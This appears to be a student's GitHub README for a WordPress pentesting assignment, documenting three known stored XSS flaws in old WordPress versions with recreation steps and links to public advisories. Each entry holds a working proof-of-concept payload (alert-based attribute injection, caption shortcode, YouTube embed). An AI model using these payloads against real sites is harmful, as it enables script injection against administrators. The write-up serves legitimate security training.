



# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - 
  - [ ] Steps to recreate: 
  - Add the following code in the comments with over 64 kps of string
     `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>`
  - [ ] Affected source code:
    - [Link 1](http://klikki.fi/adv/wordpress2.html)

2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - 
  - [ ] Steps to recreate: 
  - Need to be contributor access, when you go to create a post add this in the html
   `<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>`
  - Once an admin views the host and hovers, it will be triggered
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
    
3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - 
  - [ ] Steps to recreate: 
  - Needs to be contributor and add this to the html 
  `[embed src=’https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e’][/embded]`
  - Once the admin goes to view the post, it triggers the script
  - [ ] Affected source code:
    - [Link 1](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
